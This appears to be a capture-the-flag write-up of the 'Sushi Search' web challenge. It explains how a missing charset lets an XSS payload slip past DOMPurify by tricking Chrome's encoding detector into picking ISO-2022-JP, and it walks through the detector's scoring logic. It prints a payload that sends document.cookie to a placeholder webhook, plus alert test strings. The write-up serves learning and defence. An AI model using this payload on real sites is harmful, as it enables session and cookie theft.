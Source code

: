 ```yaml
---
title: "Sushi Search and Chrome Detect Engine"
categories: ["Writeup"]
tags: ["Web"]
#externalUrl: ""
date: 2024-08-27
draft: false
authors:
  - Hibwyli
---
```


# Sushi Search 
Read this before : 
[Blog](https://thenewstack.io/encoding-differentials-why-charset-matters/)

Type: Xss through missing charset

[Chromium detect engine ](https://source.chromium.org/chromium/chromium/src/+/main:third_party/ced/src/compact_enc_det/compact_enc_det.cc)


![image](https://hackmd.io/_uploads/ry6iR71NJl.png)

- This is really hard to me , and i just can solve after reading script :v 


## SOURCE CODE : 
- This type of ctfs is just creating a xss url and send to bot and get their cookies(flag) , so we focus on Xss.
But .... 
![image](https://hackmd.io/_uploads/BkyL1E1EJx.png)
:::danger
 They sanitize it with DomPurify at newest version !
:::

Pay attention in this code : 
![image](https://hackmd.io/_uploads/HkphkNJE1x.png)
- It doesnt specify an charset which lead to vulnerabilities.
Which leads to the wrong encoding heres of sushi emoji.
![image](https://hackmd.io/_uploads/rJjZM41EJl.png)
- But i read [this blog](https://thenewstack.io/encoding-differentials-why-charset-matters/) and i found a way to bypass.
- If we can someway to fool chrome engine to detect the charset as ISO_2022_JP, we can bypass easily with. 
``` javascript
/search?search= <a id="%1b$B"></a> %1B(B <a id="><img src=x onerror = fetch(`YOUR-WEB-HOOK?a=document.cookie`)>"></a> %1b$B %1b(B <repeat 1000 times>
```
- I cannot explain better the blog so read it :vvv .This is a valid DOM and dompurify wont sanitize this and then chrome parse it as ISO_2022_JP
**BOOOOOOOOOOOOOOOOOOOOOOM** 
We get xss :) 


## HARDEST THING 
### THE HARDEDST QUESTION IS HOW CHROME DETECT IT ? 
- Maybe you can just put a lot of bunchs of %1b$B and %1b(B  and hope chrome detect it  :vv 
#### There is something weird here when i try my exploit 
``` javascript
/search?search= <a id="%1b$B"></a> %1B(B <a id="><img src=x onerror = alert(1) >"></a>%1b$B %1b(B <repeat 10000 times>
```
``` javascript
/search?search= <a id="%1b$B"></a> %1B(B <a id="><img src=x onerror = alert(1111111111111111111111111)>"></a>%1b$B %1b(B <repeat 10000 times>
```

- Both of codes is just different at the length of alert right ? 
====== But (1) not works :vv ====== 
And (2) give me this ![image](https://hackmd.io/_uploads/r1-EGNJ4ye.png) -> chrome detect success ??

- It took me one day confusing and I decide to read chromium source code (in fact shin24 tells me :vv)

## CHROME DETECT ENGINE 
- It is too long to tell how the engine works but i will tell a little bit 
:::warning
 I just tell the way i understand because of so many blackbox. 
:::
- Its like a game of bunch encodings. Anyone has their own scores.
- Boost and Whack scores is main feature and the best will be chosen one.
## SLOW SCAN ( Which detects the ISO_2022_JP )
- It will scan 16KB of document and if it doesn't find any encodings, it will fast scan (256kb) which we dont talk about .
- Slow can will check only the interesting byte < 0x80 and 0x1b is in that case.
- ![image](https://hackmd.io/_uploads/BkHOXEkEyl.png)
Here is the scan_table it use to detect if that byte it interesting or not.
(!=0 -> interesting)

- So if it meets a interesting byte. First it will check if that bytes is inside a <tag></tag> or <script></script> or comment. If inside a **title tag** , it will be decreased the score it can boost, then skip to the end of tag just in case there is 12 bytes in title already.
![image](https://hackmd.io/_uploads/ByZRnGeN1g.png)

- Pay attention that in our case my input actually push into the title tag too.
![image](https://hackmd.io/_uploads/rk_GBE1NJx.png)
- However, there is something funny here when reading more  the logic check tag 
![image](https://hackmd.io/_uploads/BJtUrV141e.png)
- It loops back 192 bytes to find the "<" and ">" . Yeah like i say **"192"** bytes. So if you pad a bunch of "a" before your "%1b" , it won't be considered inside a title tag and they wont be skipped to tag end + keep full score weightshift !!!
- It seems the reason why exploit 2 works . Now let's dive deeper 

## ANOTHER QUESTION 
- BUT why we want to keep a bunch of data in title ?
-  When we can place it here ?
 ![image](https://hackmd.io/_uploads/SJ3yvEkVyl.png)
- Is it scored the same  ????

#### The fact is NO!

- In short, one scan just check 8 pairs of interesting bytes then pruning. If something get pruned , it is done and no get checked any more!!! And we dont want this 
- If the number of pairs is not divided by 8 , no boostPrune will happend
- Max pairs scanned === 48 pairs
## SO what is matter ? 
- The KEY IS THAT SUSHI !! 
- That emoji in bytes is 0xF0 0xF8 0x8a 0xa3 (take 4 bytes)
And if we look at the logic to boost  
![image](https://hackmd.io/_uploads/S1zf6zgE1e.png)
Logic to whack
![image](https://hackmd.io/_uploads/r1onDVJ4Jx.png)
BOOST a little and WHACK SO MUCH ! :vv
- First i think it not matter because 0xF0 is bigger than 0x1F right ? 
But when i try to debug, it happens, the 0xF0 is < 0x1F and it whack our score  so much!! 
![image](https://hackmd.io/_uploads/SJnsO4JVJg.png)

*I still dont make sense maybe because of signed number :v 
**SO the emoji whacking us too much !!!**
===>>> If we put data after sushi , there is no way to continue checking ISO due to pruned
## MATH TIMEEEE 
- In case we have 7 pair boost and 1 pair whack from sushi emoji
- BoostGentle = 60
- WhackBadPair = 600
Score = BOOST - WHACK = 7*60 - 600 = -180 points
- So we dont want to have any emoji get scanned pairs !!
---> If we set at title , it will get enough pairs before getting the sushi emoji
##  Conclusion 
- That is the reason we want to trim out the sushi emoji. And we need the assistance of title tag. 
- This challenge is really hard :vv

## MORE
I test in locally and it works with append a bunch of "a" and 8 pairs of "\x1b$B\x1b(B" so i hope its true :vv

---
v
![image](https://hackmd.io/_uploads/H1FlPSyEye.png)
![image](https://hackmd.io/_uploads/HJDzwHJ4Jl.png)
## WELL WELL TEST KNOWLEDGE
- If you understand you will know what happen if i put this sushi in another place @@ 
![image](https://hackmd.io/_uploads/Hy3FdryVJx.png)

---> It will be ISO_2022_JP :vvv